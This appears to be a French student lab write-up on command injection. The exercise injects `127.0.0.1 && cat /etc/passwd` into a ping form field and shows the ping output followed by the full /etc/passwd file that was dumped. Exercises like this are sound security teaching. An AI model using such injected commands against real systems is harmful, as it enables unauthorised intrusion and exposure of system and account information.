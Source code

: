 ### Faites afficher le contenu du fichier /etc/passwd

On insère `127.0.0.1 && cat /etc/passwd` dans l'input et on a le contenu
suivant :

```
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.021 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.033 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.048 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2998ms
rtt min/avg/max/mdev = 0.014/0.029/0.048/0.012 ms
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
m2gil-16-17:x:1000:1000:m2gil-16-17,,,:/home/m2gil-16-17:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
etudiant:x:1001:1001:,,,:/home/etudiant:/bin/bash
```
